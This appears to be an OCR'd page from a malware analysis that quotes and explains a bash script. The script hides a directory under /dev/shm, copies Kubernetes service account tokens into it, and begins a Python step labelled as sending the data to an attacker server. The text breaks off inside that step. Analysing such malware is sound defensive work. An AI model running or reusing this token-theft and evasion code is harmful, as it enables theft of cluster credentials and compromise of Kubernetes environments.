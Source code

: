 ```bash
if ! [ -d "/dev/shm/.../...HIDDEN.../" ] ; then 
  log "$BLUE" "Creating hidden directory in /dev/shm"
  mkdir -p /dev/shm/.../...HIDDEN.../ 
fi
```

this function creates a deeply nested directory to evade detection.

```bash
log "$CYAN" "Extracting K8s service tokens..."
# Make sure the tokens are extracted correctly and put into a file that persists
if [ -f "/var/run/secrets/kubernetes.io/serviceaccount/token" ] ; then 
  log "$GREEN" "Found K8s ServiceToken /var/run/secrets/kubernetes.io/serviceaccount/token"
  cat /var/run/secrets/kubernetes.io/serviceaccount/token > /dev/shm/.../...HIDDEN.../K8.txt
  log "$BLUE" "Token from var/run saved:"
  head -c 50 /var/run/secrets/kubernetes.io/serviceaccount/token | base64 | head -c 20
  echo "..."
fi

if [ -f "/run/secrets/kubernetes.io/serviceaccount/token" ] ; then 
  log "$GREEN" "Found K8s ServiceToken /run/secrets/kubernetes.io/serviceaccount/token"
  cat /run/secrets/kubernetes.io/serviceaccount/token >> /dev/shm/.../...HIDDEN.../K8.txt
  log "$BLUE" "Token from run saved:"
  head -c 50 /run/secrets/kubernetes.io/serviceaccount/token | base64 | head -c 20
  echo "..."
fi

# Verify the tokens were saved
if [ -f "/dev/shm/.../...HIDDEN.../K8.txt" ]; then
  token_size=$(wc -c < /dev/shm/.../...HIDDEN.../K8.txt)
  log "$GREEN" "Tokens file exists with size: $token_size bytes"
else
  log "$RED" "ERROR: Tokens file not found - creating backup"
  # Create a backup if needed
  mkdir -p /dev/shm/.../...HIDDEN.../
  cat /var/run/secrets/kubernetes.io/serviceaccount/token > /dev/shm/.../...HIDDEN.../K8.txt
fi
```

this is the k8s credential theft function. it extracts JWT tokens from standard k8s service account locations. it checks both `/var/run` and `/run` paths, and saves the tokens to the aforementions hidden location for exfiltration. if the primary extraction fails, it implements a backup mechanism.

```bash
log "$CYAN" "Sending data to attacker server"
export TOKENFILE="/dev/shm/.../...HIDDEN.../K8.txt"
# Send data to payload-server instead of attacker.onion
# Using a subshell to prevent the whole script from terminating if Python has an issue
(
python3 -c '
import requests
import os
import socket
import time
import sys

tokenfile = os.environ.get("TOKENFILE")
print("Reading from {}".format(tokenfile))
print("File exists: {}".format(os.path.exists(tokenfile)))
print("File size: {} bytes".format(os.path.getsize(tokenfile) if os.path.exists(tokenfile) else 0))

# Display token content for analysis
if os.path.exists(tokenfile):
    with open(tokenfile, "r") as f:
        token_content = f.read()
```